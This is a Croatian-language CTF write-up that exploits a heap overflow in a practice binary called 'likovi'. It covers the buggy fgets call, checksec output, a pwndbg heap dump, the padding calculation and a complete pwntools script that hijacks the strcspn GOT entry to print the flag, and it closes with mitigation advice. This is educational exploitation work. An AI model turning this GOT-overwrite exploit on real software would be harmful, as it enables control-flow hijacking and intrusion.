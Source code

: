# Writeup

## Otkrivanje ranjivosti



Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **heap overflow** kod uređivanja opisa postojećeg lika.

```c
printf("Novi opis (ostavi prazno za ostavljanje starog):\n");
char privOpis[500];
strcpy(privOpis, likovi[index]->opis);
fgets(likovi[index]->opis, 600, stdin);
likovi[index]->opis[strcspn(likovi[index]->opis, "\n")] = '\0';
if(strlen(likovi[index]->opis) == 0){
	strcpy(likovi[index]->opis, privOpis);	
}
```

U programu je za opis pojedinog lika rezervirano polje od 500 bajtova, a pomoću funkcije fgets se na rezervirano polje zapisuje maksimalno 600 bajta.

Pomoću programa ```checksec``` mogu se provjeriti zaštite kompajliranog programa.
```
└─$ checksec --file=likovi
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   56 Symbols        No    0               3               likovi
```
Iz rezultata postojećih zaštita se može vidjeti da kompajlirani program ne sadrži PIE zaštitu.


## Objašnjenje ranjivosti

Već je u prošlom zadatku objašnjen PIE pa se ovdje smatra da se razumije.

Kako bi se bolje razumjela ranjivost **heap overflow**, može se pogledati sadržaj heap-a u programu pomoću programa ```gdb``` u kombinaciji s ```pwndbg```. Za vizualni prikaz heap-a koristi se naredba ```vis```:


```
pwndbg> vis

...

0x405290        0x0000000000000000      0x0000000000000021      ........!.......
0x4052a0        0x00000000004052c0      0x0000000000405300      .R@......S@.....
0x4052b0        0x0000000000000000      0x0000000000000041      ........A.......
0x4052c0        0x0000006a6f726548      0x0000000000000000      Heroj...........
0x4052d0        0x0000000000000000      0x0000000000000000      ................
0x4052e0        0x0000000000000000      0x0000000000000000      ................
0x4052f0        0x0000000000000000      0x0000000000000201      ................
0x405300        0x69206e617a616e53      0x2072616261726820      Snazan i hrabar 
0x405310        0x002e6b696e746172      0x0000000000000000      ratnik..........
0x405320        0x0000000000000000      0x0000000000000000      ................

...

0x4054f0        0x0000000000000000      0x0000000000000021      ........!.......
0x405500        0x0000000000405520      0x0000000000405560       U@.....`U@.....
0x405510        0x0000000000000000      0x0000000000000041      ........A.......
0x405520        0x6361766f6b696c5a      0x0000000000000000      Zlikovac........
0x405530        0x0000000000000000      0x0000000000000000      ................
0x405540        0x0000000000000000      0x0000000000000000      ................
0x405550        0x0000000000000000      0x0000000000000201      ................
0x405560        0x696c6b756d646f50      0x76616b756c206920      Podmukli i lukav
0x405570        0x6e626f7261632069      0x000000002e6b616a      i carobnjak.....
0x405580        0x0000000000000000      0x0000000000000000      ................
0x405590        0x0000000000000000      0x0000000000000000      ................

...
```


Ovdje se može vidjeti kako se na heap-u nalaze podaci o dva lika: Heroj i Zlikovac.
Njihovi _chunk_-ovi započinju sa ```0x0000000000000021```. Nakon toga slijede dvije adrese koje također pokazuju na _heap_.
To su adresa sadržaja imena lika i adresa sadržaja opisa lika.
Ispod tih adresa nalazi se stvarni sadržaj imena i opisa lika. Ime je veliko 50 bajtova, a opis 500 bajtova. 
Vidi se da se podaci za oba lika nalaze jedan pored drugog.
Budući da se na adresu opisa lika upisuje 600 bajtova (to je više nego rezervirana veličina), može se manipulirati sadržajem koji se nalazi izvan opisa lika. 
Važno je primijetiti da se _chunk_ drugog lika nalazi neposredno nakon _chunk_-a prvog lika (na _heap_-u).

 
Ovdje se može iskoristiti napad ```GOT hijacking``` kako bi se preusmjerilo izvršavanje programa na funkciju ```ispisiTajnuPoruku```.
GOT (engl. _Global Offset Table_) je tablica u memoriji koja pohranjuje adrese vanjskih funkcija i varijabli koje se dinamički povezuju tijekom izvršavanja programa.
Ideja je da se uredi jedan zapis funkcije koja se poziva pomoću GOT tablice tako da pokazuje na funkciju ```ispisiTajnuPoruku```. Prva vanjska funkcija koja se poziva je ```strcspn```.

Situacija u kojoj se može iskoristiti napad je sljedeća:
 - Prvo se uređuje opis prvog lika (Heroj) na način da se u njega upiše: padding do drugog chunka + informacije o chunku (ostaju iste) + adresa funkcije ```strcspn``` iz GOT tablice
 - Zatim se uređuje ime drugog lika (Zlikovac) na način da se u njega upiše adresa funkcije ```ispisiTajnuPoruku```.
 - programski poziv funkcije ```strcspn``` uzrokuje poziv funkcije ```ispisiTajnuPoruku```



Kako bi se izračunao potreban padding, treba se pogledati adresa na kojoj započinje opis prvog lika. 
```
0x405300        0x69206e617a616e53      0x2072616261726820      Snazan i hrabar 
```
Ona je ```0x405300```.


Zatim se treba odrediti na kojoj adresi započinje chunk drugog lika. 
```
0x4054f0        0x0000000000000000      0x0000000000000021      ........!.......
```
Ona je ```0x4054f8```.

Izračun paddinga:

```
0x4054f0 - 0x405300 = 1F0 = 496 (dec)
496 + 8 = 504
```

Potreban padding je 504 bajta.





## Iskorištenje ranjivosti


Za izradu rješenja može se napraviti Python skripta koja iskorištava _heap overflow_ ranjivost u zadatku. 
Koraci programa:
 - Odabire se opcija za uređivanja likova (4)
 - Odabire se prvi lik (1)
 - Unosi se novi opis lika koji uređuje sadržaj podataka drugog lika i s time omogućuje uređivanje GOT tablice
 - Ponovi se odabir opcije uređivanja likova (4)
 - Odabire se drugi lik (2)
 - Unosi se novi naziv lika koji je adresa funkcije ```ispisiTajnuPoruku```.


```python
from pwn import *

io = process("./likovi")
elf = ELF("./likovi")

# = = = START

# Part1

print(io.recvuntil(b"Odabir:"))
io.sendline(b"4")

print(io.recvuntil(b"Koji lik zelite urediti?:"))
io.sendline(b"1")

print(io.recvuntil(b"Novo ime (ostavi prazno za ostavljanje starog):"))
io.sendline(b"")

print(io.recvuntil(b"Novi opis (ostavi prazno za ostavljanje starog):"))


payload = b""

padding = b"A" * 504

chunk_info = p64(0x21)


strcspn = p64(elf.got["strcspn"])
print(f"Adresa strcspn = {elf.got["strcspn"]:#x}")

payload += padding + chunk_info + strcspn

io.sendline(payload)
print(payload)

# Part2

print(io.recvuntil(b"Odabir:"))
io.sendline(b"4")


print(io.recvuntil(b"Koji lik zelite urediti?:"))
io.sendline(b"2")


print(io.recvuntil(b"Novo ime (ostavi prazno za ostavljanje starog):"))


payload2 = b""

ispisiTajnuPoruku = p64(elf.sym["ispisiTajnuPoruku"])

payload2 += ispisiTajnuPoruku


io.sendline(payload2)
print(payload2)


# = = = END


io.interactive()

```

Pokretanjem ove skripte, ispiše se flag ```CTFFOI[H3AP_c0ntr0l1ng_G0T]```

## Edukativne smjernice
- _Heap overflow_ je napad kod kojeg se unos veći od rezerviranog memorijskog prostora na _heap_-u (buffera) upisuje izvan granica buffera i može prebrisati podatke u susjednim _chunk_-ovima.
- Za zaštitu od ove ranjivosti preporučuje se:
    - Provjeriti i ograničiti duljinu korisničkog unosa
    - Koristiti sigurnije funkcije za kopiranje niza: ```strncpy``` i ```memcpy_s```. One imaju točno definirane veličine za kopiranje.
    - Uključiti _heap canary_ zaštitu (```gcc ... -fsanitize=address```) kako bi se pri pisanju izvan granica buffera detektiralo prepisivanje i odmah zaustavilo izvođenje programa.
    - Aktivirati ASLR/PIE kako bi adrese na _heap_-u bile nasumične i teže predvidljive.

